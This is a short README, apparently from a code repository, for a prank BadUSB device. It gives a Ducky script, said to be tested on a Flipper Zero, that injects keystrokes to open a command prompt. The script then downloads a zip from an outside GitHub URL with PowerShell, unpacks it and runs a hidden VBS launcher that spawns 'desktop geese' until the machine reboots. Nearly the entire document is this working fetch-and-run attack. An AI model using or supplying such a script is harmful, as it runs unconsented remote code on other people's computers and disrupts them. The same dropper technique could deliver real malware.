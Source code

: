 # Badusb-desktop-goose
Script for a badusb that will download and run a desktop goose every 60 seconds. To stop the spawining of the geese you have to restart your computer. You can also hold down ESC to evict the geese(the will come back)
must re start pc

## Ducky script(tested and working on flipper zero):
```
REM Download goose and unzip
DELAY 500
GUI r
DELAY 500
STRING cmd
DELAY 500
ENTER
DELAY 500
STRING powershell (New-Object System.Net.WebClient).DownloadFile('https://github.com/941water/omg/archive/refs/heads/main.zip', 'C:\Users\Public\Badusb-desktop-goose.zip')
DELAY 500
ENTER
DELAY 1000
STRING powershell Expand-Archive -Path 'C:\Users\Public\Badusb-desktop-goose.zip' -DestinationPath 'C:\Users\Public\Temp'
DELAY 500
ENTER
DELAY 500
STRING cd C:\Users\Public\Temp\Badusb-desktop-goose-main
DELAY 500
ENTER
STRING cscript inviswindow.vbs
DELAY 500
ENTER
STRING exit
DELAY 100
ENTER
```
